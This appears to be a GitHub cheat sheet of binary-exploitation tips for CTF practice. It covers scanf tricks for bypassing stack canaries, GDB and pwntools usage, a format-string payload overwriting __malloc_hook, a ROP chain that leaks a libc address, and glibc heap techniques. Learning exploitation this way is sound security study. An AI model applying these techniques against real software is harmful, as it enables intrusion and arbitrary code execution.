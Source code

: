# printf/scanf tricks
```c
scanf("%lf", &n); // passing non number(. or -) yields to keeping the value stored in n
		  // [!] useful for bypassing stack canaries

for(i=0; i<n; i++) {
	scanf("%lf", &arr[i]); // %lf -> stack canary can be bypassed
	scanf("%d", &arr[i]);  // %d -> passing . or - terminates every scanf after
}

printf("hello\x00there"); // prints "hello"
			  // printf format string (first arg) terminates on nullbyte
			  // [!] something to keep in mind while exploiting format strings

printf("%100000c"); // triggers malloc
```

# GDB/pwndbg/pwntools tricks
### Pwndbg print whole stack
```
stack
telescope ($rbp-$rsp)/8+1
```
### Print value
```
p user
```
### Print type/struct info
```
ptype user
```
### Print code around crash (or rip)
```
context code
```
### Running with custom libc without custom linker
If running from pwntools script setting LD_PRELOAD usually works
```python3
gs = '''
c
b *__libc_start_main+391
set $rax = main
<set other breakpoints here>
c
'''

io = gdb.debug(elf.path, gdbscript=gs, env={"LD_PRELOAD" : libc.path})
```
If first method fails you could set rpath to path that holds custom libc with patchelf
```
patchelf --set-rpath `pwd` <binary>
```
If the binary crashes in `__libc_start_main` before `call rax` you can break before the crash and manually set `rax` to the address of main
```
b *__libc_start_main+391
set $rax = main
```
### Tired of writing format string exploits?
Pwntools offers less painful alternative :)
https://docs.pwntools.com/en/stable/fmtstr.html
```python3
fmtstr_payload(8, {__malloc_hook : one_gadget}, write_size="byte")
```
### Find candidates for fake fastbin chunks
```
find_fake_fast addr
```
Where addr is the address of value to overlap.

# Leaking libc
This ropchain prints newline and then leaks address of puts from libc. The libc offset is then easily calculated by substracting puts offset from leaked address.
```python3
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(0x400020) 			# empty line to print -> points to start of .text section
buf += p64(elf.symbols["puts"]) 	# print newline
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(elf.got["puts"]) 		# rdi = *puts@got
buf += p64(elf.symbols["puts"])
buf += p64(0x000000000040063e) 		# ret; 
buf += p64(elf.symbols["fill"]) 	# call fill() (vulnerable function) for second stage
```
### Not sure which libc version is on remote system?
Leak any libc function from .got table and check with https://libc.blukat.me/

Still not sure?
Leak more libc functions.
### No shellcode, no ropchain? No problem
Use one_gadget https://github.com/david942j/one_gadget
to overwrite whatever address you can control execution with

# Glibc techniques summary
## House of Force
Overwrite `top_chunk` size and wrap around address space to control where the next chunk is allocated.
## Fastbin dup
Perform double free -> control the fd pointer in the last fastbin -> malloc returns address in fd pointer.

# Other arch
## ARM
Getting started: https://azeria-labs.com/arm-lab-vm/

Currently `ROPgadget` has stronger gadget detection than `ropper` when it comes to ARM architecture

# Adding symbols to stripped binary
```
objcopy ./example --add-symbol main=.text:0xe2,function,global ./example-with-symbols
```
Where `0xe2` is offset of `main` from `.text` section.
The `--add-symbol` option may be specified multiple times.

https://naliferopoulos.github.io/ThinkingInBinary/symbolicating-stripped-elf-files-manually

# More tips
https://ropemporium.com/guide.html

https://github.com/Naetw/CTF-pwn-tips
